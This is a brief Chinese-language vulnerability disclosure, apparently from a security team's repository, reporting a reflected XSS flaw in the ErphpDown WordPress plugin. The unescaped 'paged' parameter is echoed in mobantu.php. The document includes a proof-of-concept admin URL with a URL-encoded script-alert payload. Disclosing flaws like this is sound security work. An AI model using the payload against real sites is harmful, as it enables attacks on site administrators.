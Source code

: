 ## ErphpDown插件反射型xss

在erphpdown/includes/mobantu.php文件中的erphp_admin_pagenavi方法中先是接收了get请求中的参数paged，最后在361行处直接输出在页面中，导致了反射型xss漏洞。

![1560842530366](https://github.com/QiAnXinCodeSafe/Legendsec/blob/master/Erphpdown/images/1560842530366.png)

![1560842559869](https://github.com/QiAnXinCodeSafe/Legendsec/blob/master/Erphpdown/images/1560842559869.png)

## 复现：

localhost/WordPress/wp-admin/admin.php?page=erphpdown%2Fadmin%2Ferphp-vip-items.php&paged=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

![1560842932807](https://github.com/QiAnXinCodeSafe/Legendsec/blob/master/Erphpdown/images/1560842932807.png)
